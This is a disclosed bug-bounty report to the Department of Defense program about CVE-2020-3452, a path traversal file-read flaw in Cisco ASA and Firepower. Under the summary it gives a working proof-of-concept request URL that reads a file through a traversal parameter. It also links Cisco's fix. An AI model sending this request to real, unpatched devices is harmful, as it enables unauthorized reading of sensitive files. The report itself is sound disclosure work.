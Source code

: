 # CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.

## Report Details
- **Report ID**: 951508
- **URL**: https://hackerone.com/reports/951508
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-05T10:21:56.041Z
- **Disclosed**: 2020-09-03T17:23:05.780Z

## Reporter
- **Username**: amrr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
#_The affected IP_:
█████

Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.
For example to read "/+CSCOE+/portal_inc.lua" file.

for example:

████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../


## Suggested Mitigation/Remediation Actions

Cisco has released the fix https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Impact

This vulnerability allows an unauthenticated, remote attacker to perform directory traversal attacks and read sensitive files on the  system.

## Attachments
No attachments
